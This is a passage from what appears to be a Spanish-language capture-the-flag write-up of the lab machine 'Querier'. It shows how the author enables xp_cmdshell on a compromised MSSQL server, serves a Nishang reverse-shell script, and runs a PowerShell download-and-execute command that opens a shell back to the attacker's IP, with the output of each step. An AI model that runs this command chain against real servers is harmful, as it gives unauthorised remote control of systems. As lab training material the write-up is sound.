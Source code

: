 - Vemos que ahora cambia a 1 ya podemos usarlo.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> enable_xp_cmdshell
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (QUERIER\mssql-svc  dbo@master)>
```

- Ahora ya podemos ejecutar comandos.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "whoami"
output
-----------------
querier\mssql-svc

NULL

SQL (QUERIER\mssql-svc  dbo@master)>
```

- Ahora podemos ganar acceso ala maquina empleando lo siguiente <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1>.

- Vamos a modificar el script para entablarnos una `reverse shell` directamente.

```bash
➜  content echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.11 -Port 443' >> Invoke-PowerShellTcp.ps1
➜  content cat Invoke-PowerShellTcp.ps1 | tail -n 1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.11 -Port 443
```

- Vamos a ejecutar un servicio `http` con `python3` por el puerto `80`.

```bash
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Y ahora nos podemos en escucha por el puerto 443 para que nos llegue la `reverse shell`.

```bash
➜  content rlwrap nc -nvlp 443
listening on [any] 443 ...
```

- Ahora usamos el `xp_cmdshell`.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.15.11/Invoke-PowerShellTcp.ps1\")"
```

- Nos llega la `reverse shell`.

```bash
➜  content rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.11] from (UNKNOWN) [10.129.67.247] 49677
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
querier\mssql-svc
PS C:\Windows\system32>
```
